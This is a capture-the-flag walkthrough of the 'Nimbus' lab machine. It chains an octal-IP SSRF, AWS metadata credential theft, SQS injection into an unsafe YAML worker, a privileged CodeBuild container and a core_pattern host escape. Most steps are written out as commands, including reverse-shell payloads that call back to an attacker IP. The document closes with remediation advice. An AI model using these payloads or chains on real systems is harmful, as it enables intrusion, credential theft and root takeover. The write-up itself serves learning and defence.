





| Property         | Value                                                                                                                                                                          |
| ---------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| **OS**           | Linux                                                                                                                                                                          |
| **Difficulty**   | Hard                                                                                                                                                                           |
| **Release Date** | 2026-06-20                                                                                                                                                                     |
| **State**        | Active                                                                                                                                                                         |
| **IP**           | 10.129.245.218                                                                                                                                                                 |
| **Techniques**   | SSRF, octal IP obfuscation, AWS metadata credential theft, SQS enumeration, unsafe YAML deserialization, CodeBuild privileged-container abuse, `core_pattern` container escape |
| **Tags**         | #web #privesc #linux #aws #docker #core_pattern                                                                                                                                |

---
## Summary

Nimbus is a hard Linux machine hosting an internal job-scheduling application on port 80. The scheduler accepts a URL pointing to a `.yaml` job file, and its health-check feature discloses a second virtual host, `aws.nimbus.htb`, which fronts a simulated AWS environment (LocalStack). The job-submission feature is vulnerable to server-side request forgery (SSRF); the blacklist that blocks internal addresses can be bypassed by encoding the target IP in octal, which is used to reach the EC2 instance-metadata service and steal temporary IAM credentials. Those credentials are used to enumerate SQS and locate the queue that feeds the job scheduler's backend worker. The worker consumes queue messages with `yaml.load()`, an unsafe deserialization sink, and crafting a YAML job containing a Python payload results in a reverse shell as `worker`, running inside an unprivileged Docker container. The same IAM role has permission to use AWS CodeBuild (emulated locally), which is abused to create a second, privileged sibling container via `privilegedMode: true`, granting a root shell with the full Linux capability set. From inside that privileged container, the host's `/proc/sys/kernel/core_pattern` handler is hijacked to point at an attacker-controlled script, and triggering a local process crash causes the host kernel to execute that script as root, completing the  container escape to the underlying host.

---

## Enumeration

```
echo '10.129.245.218 nimbus.htb' | sudo tee -a /etc/hosts
```

Added the IP address of the machine to the `/etc/hosts` file.

### Nmap Scan

```
nmap -sC -sV nimbus.htb
Starting Nmap 7.95 ( https://nmap.org ) at 2026-08-28 04:43 EDT
Nmap scan report for nimbus.htb (10.129.245.218)
Host is up (0.033s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.16 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 eb:ab:8f:be:99:02:0b:3e:c4:1c:83:b2:66:2f:17:13 (ECDSA)
|_  256 c1:69:ab:84:f3:88:8b:b3:8a:ae:e2:28:35:54:35:0b (ED25519)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
|_http-title: Nimbus \xE2\x80\x94 Internal Job Scheduler
|_http-server-header: nginx/1.24.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.36 seconds
```

### Service Enumeration

The service on port 80 is an internal job scheduler that accepts either a URL to a `.yaml` job file or the raw YAML content itself.



Inspecting the application's `healthcheck` feature discloses a second virtual host, `aws.nimbus.htb`:



```
echo '10.129.245.218 aws.nimbus.htb' | sudo tee -a /etc/hosts
```

`aws.nimbus.htb` fronts a simulated AWS control-plane endpoint (backed by LocalStack), used by the scheduler application to interact with cloud services such as SQS and CodeBuild.

---
## Foothold

### SSRF via Submit Job

The "Submit Job" feature accepts a URL, and the application server itself fetches that URL to retrieve the job definition.



### Vulnerability 

Server-side request forgery is a web security vulnerability that allows an attacker to cause server-side application to make requests to an unintended location, potentially reaching internal-only services or leaking sensitive data such as credentials.

Source: [PortSwigger — Server-Side Request Forgery](https://portswigger.net/web-security/ssrf)

The application blacklists internal targets (`127.0.0.1`, `169.254.169.254` which is the cloud metadata address, etc.), but the filter only matches the literal string. Encoding the metadata address in octal notation is functionally identical to a browser or HTTP client, but bypasses the string-based blacklist entirely.

### Reaching the Metadata Service

```
http://0251.0376.0251.0376/latest/meta-data/iam/security-credentials/?=x.yaml
```

The `?=x.yaml` suffix satisfies the application's requirement that submitted URLs end in `.yaml`, without affecting the actual HTTP request path.



The metadata endpoint requires no authentication and discloses the name of the IAM role attached to the instance, `nimbus-web-role`. Requesting the role's credential sub-path returns temporary IAM credentials:



```json
{
  "Code": "Success",
  "LastUpdated": "2026-08-28T08:57:36Z",
  "Type": "AWS-HMAC",
  "AccessKeyId": "ASIAQX4PG7L2K9M3N5R8",
  "SecretAccessKey": "bXJ7K8mP/q2Hf+vN9wT4LcRe5Y1Aoz3DhU6gKjQs",
  "Token": "IQoJb3JpZ2luX2VjEHQaCXVzLWVhc3QtMSJGMEQCIBhV9zPmK3wQjL4nT8vR2xY7AoFqUk5HsP6BeMcW1aDgAiAR4tNoXzKp8VnJqL7mC3xY9FhWdQ5GBPmRkX2vT8jY6yqsAQiK//////////8BEAEaDDAwMDAwMDAwMDAwMCIMNZ5tQ7vEX2pKlHfqKtoBQwK5HmBcN4gXjVrUe1Pk9YsZ7DqWfThN3bMRoLYyJsKn8GpVxAcQ5VeWk2HiqXbF6CnXmM4PdYpL3rJzKqGtNvBfHcWyXa8jPzTn5LRMkV1QbWdAyKpGfHzNvU8TmEcL2qPdRhJsKgGn3VyXmFbBcNJ7QrHe5VpDxKfM",
  "Expiration": "2026-08-28T14:57:36Z"
}
```

### AWS Enumeration

The credentials are loaded into the AWS CLI profile, pointed at the target's simulated endpoint for every call:

```
aws configure
AWS Access Key ID [None]: ASIAQX4PG7L2K9M3N5R8
AWS Secret Access Key [None]: bXJ7K8mP/q2Hf+vN9wT4LcRe5Y1Aoz3DhU6gKjQs
AWS Session Token [None]: IQoJb3JpZ2luX2VjEHQaCXVzLWVhc3QtMSJGMEQCIBhV9zPmK3wQjL4nT8vR2xY7AoFqUk5HsP6BeMcW1aDgAiAR4tNoXzKp8VnJqL7mC3xY9FhWdQ5GBPmRkX2vT8jY6yqsAQiK//////////8BEAEaDDAwMDAwMDAwMDAwMCIMNZ5tQ7vEX2pKlHfqKtoBQwK5HmBcN4gXjVrUe1Pk9YsZ7DqWfThN3bMRoLYyJsKn8GpVxAcQ5VeWk2HiqXbF6CnXmM4PdYpL3rJzKqGtNvBfHcWyXa8jPzTn5LRMkV1QbWdAyKpGfHzNvU8TmEcL2qPdRhJsKgGn3VyXmFbBcNJ7QrHe5VpDxKfM
Default region name [us-east-1]: us-east-1
Default output format [json]: json
```

Listing SQS queues:

```
aws sqs list-queues --endpoint-url http://aws.nimbus.htb
```

```json
{
    "QueueUrls": [
        "http://floci:4566/847219365028/nimbus-jobs"
    ]
}
```

`nimbus-jobs` is the queue that feeds the job scheduler's backend. Its attributes are analyzed:

```
aws sqs get-queue-attributes --queue-url http://floci:4566/847219365028/nimbus-jobs --attribute-names All --endpoint-url http://aws.nimbus.htb
```

```json
{
    "Attributes": {
        "DelaySeconds": "0",
        "MessageRetentionPeriod": "345600",
        "MaximumMessageSize": "262144",
        "VisibilityTimeout": "30",
        "QueueArn": "arn:aws:sqs:us-east-1:847219365028:nimbus-jobs",
        "CreatedTimestamp": "1787906450",
        "LastModifiedTimestamp": "1787906450",
        "ApproximateNumberOfMessages": "0",
        "ApproximateNumberOfMessagesNotVisible": "0"
    }
}
```

`floci` is the internal hostname of the LocalStack instance that emulates AWS for this environment; every subsequent `aws` call targets it via `--endpoint-url http://aws.nimbus.htb`.

### RCE via Unsafe YAML Deserialization

The stolen credentials are valid for `sqs:SendMessage`, so a message can be written directly to the queue, bypassing the web UI entirely. A callback payload confirms the backend worker executes message content server-side:

```
aws sqs send-message \
  --queue-url http://floci:4566/847219365028/nimbus-jobs \
  --message-body '{"name": "callback-test", "runtime": "python3.11", "script": "import urllib.request; urllib.request.urlopen(\"http://10.10.14.93:9001\")"}' \
  --endpoint-url http://aws.nimbus.htb
```

```
nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.93] from (UNKNOWN) [10.129.108.231] 39916
GET / HTTP/1.1
Accept-Encoding: identity
Host: 10.10.14.93:9001
User-Agent: Python-urllib/3.11
Connection: close
```

### Exploitation

A payload containing a reverse shell is submitted the same way:

```
aws sqs send-message \
  --queue-url http://floci:4566/847219365028/nimbus-jobs \
  --message-body '{"name": "rev-shell", "runtime": "python3.11", "script": "import socket,subprocess,os\ns=socket.socket(socket.AF_INET,socket.SOCK_STREAM)\ns.connect((\"10.10.15.179\",9001))\nos.dup2(s.fileno(),0)\nos.dup2(s.fileno(),1)\nos.dup2(s.fileno(),2)\nsubprocess.call([\"/bin/sh\",\"-i\"])"}' \
  --endpoint-url http://aws.nimbus.htb
```

```
nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.15.179] from (UNKNOWN) [10.129.245.218] 55674
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=1000(worker) gid=1000(worker) groups=1000(worker)
```

A shell is obtained as `worker`, running inside a Docker container.

---
## User Flag

```
$ cat /home/worker/user.txt
e8c6****************************973
```

The worker script confirms the vulnerable sink:

```python
worker@d12359d35216:/app$ cat worker.py
"""Nimbus job worker. Polls SQS, parses messages with yaml.load (vulnerable)."""
import os, time, subprocess, boto3, yaml

ENDPOINT  = os.environ.get("AWS_ENDPOINT_URL", "http://aws.nimbus.htb")
QUEUE_URL = os.environ.get("QUEUE_URL", "http://aws.nimbus.htb/000000000000/nimbus-jobs")
REGION    = os.environ.get("AWS_DEFAULT_REGION", "us-east-1")
POLL_SECS = 5

sqs = boto3.client("sqs", endpoint_url=ENDPOINT, region_name=REGION)

def handle_message(body):
    job = yaml.load(body, Loader=yaml.Loader)  # vulnerable
    if not isinstance(job, dict):
        return
    name = job.get("name", "<unnamed>")
    script = job.get("script", "")
    if script:
        result = subprocess.run(["python3", "-c", script],
            capture_output=True, text=True, timeout=30)

def main():
    while True:
        try:
            resp = sqs.receive_message(QueueUrl=QUEUE_URL,
                MaxNumberOfMessages=1, WaitTimeSeconds=POLL_SECS)
            for m in resp.get("Messages", []):
                try: handle_message(m["Body"])
                except Exception as e: print(f"[worker] error: {e}", flush=True)
                finally:
                    sqs.delete_message(QueueUrl=QUEUE_URL, ReceiptHandle=m["ReceiptHandle"])
        except Exception as e:
            time.sleep(POLL_SECS)

if __name__ == "__main__":
    main()
```

The message body isn't decoded with a safe, restricted loader (e.g. `yaml.safe_load`), but with `yaml.load(..., Loader=yaml.Loader)`, the full, unrestricted loader. Since the queue message is fully attacker-controlled JSON/YAML and the resulting `script` field is handed straight to `subprocess.run(["python3", "-c", script])`, sending a message is arbitrary Python code execution.

---

## Unprivileged Container Escape

### Local Enumeration

```
worker@d12359d35216:/app$ env
AWS_DEFAULT_REGION=us-east-1
AWS_SECRET_ACCESS_KEY=dM4nV/q8Hf7LcRpZ2eY1KjBxN5Aozs3T6gU9JfWh
QUEUE_URL=http://aws.nimbus.htb/847219365028/nimbus-jobs
AWS_ACCESS_KEY_ID=AKIA7P3R9X4K8M2L5VHN
AWS_ENDPOINT_URL=http://aws.nimbus.htb
```

The container ships its own, long-lived IAM credentials, belonging to a dedicated worker role:

```
aws sts get-caller-identity --endpoint-url http://aws.nimbus.htb
```

```json
{
    "UserId": "AROA7P3R9X4K8M2L5VHNT:worker",
    "Account": "847219365028",
    "Arn": "arn:aws:sts::847219365028:assumed-role/nimbus-worker-role/worker"
}
```

Probing other AWS services reachable with this role shows CodeBuild is enabled, currently with no projects defined:

```
aws codebuild --endpoint-url http://floci:4566 list-projects
```

```json
{
    "projects": []
}
```

### Theory Behind The CodeBuild Escape

AWS CodeBuild is a managed CI/CD build service: a customer defines a _project_ (source, build image, environment) and a _buildspec_ (a YAML list of shell commands to run), and CodeBuild launches a fresh, isolated build container to execute those commands. Critically, CodeBuild supports a `privilegedMode` environment flag, intended for build jobs that themselves need to build/run Docker images ("Docker-in-Docker"). When `privilegedMode: true` is set, the build container is started with elevated Docker privileges (equivalent to `docker run --privileged`) so that a nested Docker daemon can operate inside it.

In this environment, CodeBuild is not the real AWS service, it's emulated locally by LocalStack (referred to internally as `floci`). LocalStack implements this emulation the straightforward way: it talks to the same host Docker daemon the rest of the environment runs on and starts a new, sibling container for every build, using whatever image and environment flags the `CreateProject`/`StartBuild` API calls specify. This means:

- The `worker` IAM role, despite being scoped to a single unprivileged worker container, has enough IAM permissions (`codebuild:CreateProject`, `codebuild:StartBuild`) to ask the LocalStack control plane to launch an entirely new container on the same Docker host.
- Because the attacker fully controls the project definition, `privilegedMode: true` can simply be requested, and the buildspec's `commands` list is attacker-controlled shell.
- The result is a new, sibling container that is privileged relative to the original `worker` container: it holds the full Linux capability set instead of Docker's restricted default set.

The vulnerability lies in the fact that `nimbus-worker-role` should never have been allowed to create and start privileged CodeBuild projects. Any principal who can do so can trivially turn that permission into a root shell in a new, unrestricted container on the same host.

### Exploitation

A malicious CodeBuild project is created and a build started with a `buildspec` that pops a reverse shell, using `privilegedMode: True`:

```python
import boto3, os

buildspec = """version: 0.2
phases:
  build:
    commands:
      - bash -c 'bash -i >& /dev/tcp/10.10.15.179/9002 0>&1' || true
"""

cb = boto3.client(
    'codebuild',
    endpoint_url='http://floci:4566',
    aws_access_key_id=os.environ['AWS_ACCESS_KEY_ID'],
    aws_secret_access_key=os.environ['AWS_SECRET_ACCESS_KEY'],
    region_name='us-east-1'
)

try:
    cb.delete_project(name='shell')
except Exception:
    pass

cb.create_project(
    name='shell',
    source={'type': 'NO_SOURCE'},
    artifacts={'type': 'NO_ARTIFACTS'},
    environment={
        'type': 'LINUX_CONTAINER',
        'computeType': 'BUILD_GENERAL1_SMALL',
        'image': 'floci/floci:latest',
        'privilegedMode': True,
    },
    serviceRole='arn:aws:iam::000000000000:role/codebuild-role',
)

r = cb.start_build(
    projectName='shell',
    buildspecOverride=buildspec,
)
print("Build:", r['build']['id'])
```

```
worker@d12359d35216:~$ python3 exploit.py
Build: shell:2
```

```
nc -lvnp 9002
listening on [any] 9002 ...
connect to [10.10.15.179] from (UNKNOWN) [10.129.245.218] 41574
bash: cannot set terminal process group (9): Inappropriate ioctl for device
bash: no job control in this shell
[root@10e499ed52dd src]# whoami
root
```

A root shell is obtained inside a new, privileged sibling container, separate from and more powerful than the original `worker` container.

---

## Host Escape via `core_pattern`

### Enumeration

Capabilities inside the new container are checked and confirm the privileged status:

```
[root@10e499ed52dd src]# cat /proc/self/status | grep Cap
CapInh: 0000000000000000
CapPrm: 000001ffffffffff
CapEff: 000001ffffffffff
CapBnd: 000001ffffffffff
CapAmb: 0000000000000000
```

```
[root@10e499ed52dd src]# capsh --decode=000001ffffffffff
0x000001ffffffffff=cap_chown,cap_dac_override,cap_dac_read_search,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_linux_immutable,cap_net_bind_service,cap_net_broadcast,cap_net_admin,cap_net_raw,cap_ipc_lock,cap_ipc_owner,cap_sys_module,cap_sys_rawio,cap_sys_chroot,cap_sys_ptrace,cap_sys_pacct,cap_sys_admin,cap_sys_boot,cap_sys_nice,cap_sys_resource,cap_sys_time,cap_sys_tty_config,cap_mknod,cap_lease,cap_audit_write,cap_audit_control,cap_setfcap,cap_mac_override,cap_mac_admin,cap_syslog,cap_wake_alarm,cap_block_suspend,cap_audit_read,cap_perfmon,cap_bpf,cap_checkpoint_restore
```

The container holds the entire capability set, including `cap_sys_admin`, `cap_sys_module`, and `cap_sys_ptrace` ,  a Docker container running with the equivalent of `--privileged`.

### Vulnerability

`/proc/sys/kernel/core_pattern` is a kernel setting that tells the OS what to do when a process crashes and generates a core dump. Normally it names a file pattern (e.g. `core.%p`), but if its first character is a pipe (`|`), the rest of the line is treated as a program to execute, and the crashing process's core dump is piped to that program's `stdin`. Critically, this handler always runs as root, at the host/kernel level, regardless of which user or container the crashing process belonged to.

`core_pattern` is a single, global, host-wide kernel setting (unless the kernel's PID-namespace-scoped variant is in effect and properly isolated). A `--privileged` container is typically still confined to its own mount and PID namespaces, but privileged mode grants `CAP_SYS_ADMIN`/write access to procfs entries that would otherwise be read-only, and in many real-world deployments (as here) the container also has enough filesystem visibility into the host (via OverlayFS) to stage a payload that the _host_ kernel can actually reach by path. Combining:

1. **Write access to `/proc/sys/kernel/core_pattern`** (available due to the privileged/`CAP_SYS_ADMIN` container), and
2. **A way to reference a script by a path that resolves correctly from the host's root filesystem**

lets a privileged container process reprogram what the _host_ kernel executes, as root, the next time **any** process anywhere on the host crashes, including a process the attacker deliberately crashes inside their own container.

Reference: [kubehound.io — CE_UMH_CORE_PATTERN](https://kubehound.io/reference/attacks/CE_UMH_CORE_PATTERN/)

### Finding a Host-Resolvable Path

Docker containers typically run on the OverlayFS storage driver: each container's writable filesystem layer (the "upperdir") is an ordinary directory that exists directly on the **host's** filesystem, mounted into the container to appear as `/`. Any file written inside the container to a path such as `/tmp/shell.sh` therefore also has a second, host-resolvable path, somewhere like `/var/lib/docker/overlay2/<id>/diff/tmp/shell.sh`. Since `core_pattern` is interpreted by the host kernel, only a host-resolvable path will work.

The container's own mounts are checked to confirm the setup:

```
cat /proc/self/mounts
```

### Exploitation

A payload script is written to the container's own filesystem:

```
cat > /tmp/shell.sh << 'EOF'
#!/bin/bash
bash -i >& /dev/tcp/10.10.15.179/9003 0>&1
EOF
chmod +x /tmp/shell.sh
```

The container's OverlayFS `upperdir` is extracted from the mount table:

```
export OVERLAY_PATH=$(cat /proc/mounts | grep -oe upperdir="[^,]*," | cut -d = -f 2 | tr -d , | head -n 1)
```

`core_pattern` is overwritten with the host-resolvable absolute path to the payload, prefixed with `|` to mark it as a pipe-to-program handler:

```
echo "|${OVERLAY_PATH}/tmp/shell.sh" > /proc/sys/kernel/core_pattern
cat /proc/sys/kernel/core_pattern
```

A minimal C program is compiled locally and copied into the container. It references a null pointer to force an immediate segmentation fault:

```c
#include <stddef.h>

int main(void) {
    int *p = NULL;
    *p = 1;
    return 0;
}
```

Core dump size limits are lifted so the kernel actually generates (and pipes) the crash dump:

```
ulimit -c unlimited
./crash
```

The moment the program crashes, the host kernel reads the (now globally hijacked) `core_pattern`, resolves the payload's path against the host root filesystem, and executes it as `root`:

```
nc -lvnp 9003
listening on [any] 9003 ...
connect to [10.10.15.179] from (UNKNOWN) [10.129.245.218] 51180
bash: cannot set terminal process group (-1): Inappropriate ioctl for device
bash: no job control in this shell
root@nimbus:/# id
uid=0(root) gid=0(root) groups=0(root)
```

A root shell is obtained directly on the underlying host.

## Root Flag

```
root@nimbus:/# cat /root/root.txt
860c9***************************154
```

---
## Remediation

- **SSRF in the job-submission feature:** Replace the blacklist-based filter with a strict allow-list of expected external hosts/schemes, and additionally block outbound access to the `169.254.169.254` metadata address (and any octal/decimal/hex-encoded equivalent) at the network layer, independent of application-level filtering.
- **Metadata credential exposure:** Migrate to Instance Metadata Service v2 (IMDSv2), which requires a session token obtained via a `PUT` request and is not exploitable through simple GET-based SSRF.
- **Unsafe YAML deserialization:** Replace `yaml.load(body, Loader=yaml.Loader)` with `yaml.safe_load()`. Never treat a message-queue payload as trusted, executable code; queue consumers should validate against a strict schema and never pass user-influenced fields into `subprocess`.
- **Overly broad IAM role for the worker service:** `nimbus-worker-role` should not have permission to create or start CodeBuild projects, let alone with `privilegedMode: true`. Scope IAM policies to the minimum actions the worker actually needs (`sqs:ReceiveMessage`/`sqs:DeleteMessage` on its own queue only).
- **Unrestricted `privilegedMode` in CodeBuild/CI tooling:** Disable `privilegedMode` unless a specific, audited build genuinely requires Docker-in-Docker, and restrict who can set it via IAM condition keys or service control policies.
- **`core_pattern` / privileged container exposure:** Avoid running containers with `--privileged` wherever possible; use fine-grained `--cap-add` for the specific capability a workload needs. Where privileged containers are unavoidable, ensure the host's `/proc/sys/kernel/core_pattern` cannot be influenced by container processes (e.g. via user namespace remapping, seccomp/AppArmor profiles restricting writes to sensitive procfs paths, or `sysctl kernel.core_pattern` hardening combined with a read-only mount of `/proc/sys`).

---
## References

- [PortSwigger — Server-Side Request Forgery (SSRF)](https://portswigger.net/web-security/ssrf)
- [AWS — Instance Metadata Service Version 2 (IMDSv2)](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/ec2-instance-metadata.html)
- [PyYAML documentation — `yaml.load()` security warning](https://pyyaml.org/wiki/PyYAMLDocumentation)
- [AWS CodeBuild — Build environment (`privilegedMode`)](https://docs.aws.amazon.com/codebuild/latest/userguide/build-env-ref-compute-types.html)
- [LocalStack Documentation](https://docs.localstack.cloud/)
- [kubehound.io — CE_UMH_CORE_PATTERN (core_pattern container escape)](https://kubehound.io/reference/attacks/CE_UMH_CORE_PATTERN/)
- [Linux man-pages — core(5): core dump file / `core_pattern`](https://man7.org/linux/man-pages/man5/core.5.html)